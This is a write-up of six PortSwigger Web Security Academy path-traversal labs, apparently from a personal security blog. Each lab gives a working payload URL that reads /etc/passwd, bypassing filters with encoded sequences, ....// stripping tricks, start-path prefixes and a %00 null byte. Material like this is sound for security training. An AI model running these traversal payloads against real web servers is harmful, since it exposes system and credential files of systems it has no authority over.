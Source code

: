# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), simple case

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


we start by accessing the page source code and copied the path to the image file:


```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=48.jpg
```

we now modify this link to the path of `/etc/passwd` :

```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=/../../../etc/passwd
```

and we solved the lab:


![1695712761088.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695712761088.png)



# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences blocked with absolute path bypass


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images. supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


Accessing the challenge link; we try fuzzing for the directory traversal vulnerability as done earlier in the first lab

we copy the address of one of the images and editted it as follows:

```http
https://0ad1000e03af75ed84db10bf006600f6.web-security-academy.net/image?filename=/etc/passwd
```

we use the absolute file path to access the etc/passd file and solved the lab:

![1695715319507.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695715319507.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped non-recursively

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

After fuzzing we use the following link to access the /etc/passwd file

```http
https://0a200069044e71f880564996008f0009.web-security-academy.net/image?filename=....//....//....//....//etc/passwd
```

as you could see, we added `....//` at the beginning of each traversal, this is done to bypass the stripping of the traversal sequences. These revert to simple traversal sequences when the inner sequence is stripped.

sending this request solves the lab:

![1695715831462.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695715831462.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped with superfluous URL-decode


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this challenge we tend to bpyass the stripping of traversal in the web server in a multipart/form-data request to it.

bypassing this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

we used the second option of encoding the traversal in this lab we use the following:

```http
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

this is simply the traversal payload we have been using in the previous lab url-encoded twice, decoding it twice gives us back the payload:

 ![1695716524822.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716524822.png)



we send this request in burp:

 ![1695716550939.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716550939.png)

and we got the following response:

 ![1695716595099.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716595099.png)

And we solved the lab:

 ![1695716627989.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716627989.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of start of path

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

This lab talks about the validation of the start path where the server fetchs the image content from, to solve this lab we simply traverse out of this lab and access the passwd file using the following payload:

```http
https://0a0b004103a4630d803ed106005f00c2.web-security-academy.net/image?filename=/var/www/images/../../../../../etc/passwd
```

sending this request solves the lab:

 ![1695716925240.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716925240.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of file extension with null byte bypass

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this lab, our aim is to bypass the extension added at the end of the file name in this case the .png extension added by default, the trick here is to use the null byte to escape it so as to retain the filename, we use the url encoded null byte `%00` and append it at the end of our filename including the .png extension: 

```http
https://0a2800b70336a269800ed0a20025001c.web-security-academy.net/image?filename=../../../../../etc/passwd%00.png
```

sending this request solves the lab:

 ![1695717283024.png](https://cyberguru1.github.io/posts/portswigger/dir_trav/images/1695717283024.png)



And that's the end of the path travesal labs on portswigger!!!!
